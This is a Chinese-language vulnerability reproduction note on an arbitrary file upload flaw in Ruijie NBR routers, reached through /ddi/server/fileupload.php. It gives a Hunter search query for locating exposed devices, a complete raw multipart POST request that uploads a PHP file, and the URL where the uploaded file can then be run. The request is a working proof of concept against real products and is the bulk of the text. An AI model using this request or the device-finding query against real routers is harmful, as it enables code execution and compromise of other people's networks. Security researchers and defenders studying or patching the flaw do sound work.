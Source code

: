 # 锐捷NBR路由器fileupload.php任意文件上传漏洞

# 一、漏洞简介
锐捷NBR路由器是锐捷网络科技有限公司推出的一款高性能企业级路由器。NBR是"Next-Generation Broadband Router"的缩写，意为"下一代宽带路由器"。该路由器具有强大的处理能力和丰富的功能，适用于中小型企业、校园网络和数据中心等场景。锐捷 NBR 路由器 存在任意文件上传漏洞，可能导致执行恶意代码、服务器拒绝服务、数据泄露、网站篡改和横向渗透等危害。

# 二、影响版本
+ 锐捷NBR路由器

# 三、资产测绘
+ hunter`app.name=="Ruijie 锐捷 EWEB"`
+ 登录页面

![1693802366372-530b8f97-01f8-4fac-a782-d3306d3ea54e.png](./img/jFBa7SreAbBovuDn/1693802366372-530b8f97-01f8-4fac-a782-d3306d3ea54e-629998.png)

# 四、漏洞复现
```plain
POST /ddi/server/fileupload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 219

--00content0boundary00
Content-Disposition: form-data; name="uploadDir"

upload
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.php"

<?php phpinfo();?>
--00content0boundary00--

```

![1693802445069-749e8cd1-a5e8-4d46-8414-3f97cb5d244a.png](./img/jFBa7SreAbBovuDn/1693802445069-749e8cd1-a5e8-4d46-8414-3f97cb5d244a-776042.png)

上传文件位置

```plain
https://xx.xx.xx.xx/ddi/server/upload/1.php
```

![1693802535846-9a7f6ed5-7c93-4144-9561-7097e5d12ec5.png](./img/jFBa7SreAbBovuDn/1693802535846-9a7f6ed5-7c93-4144-9561-7097e5d12ec5-353619.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ydw1qor2zc4dv3k8>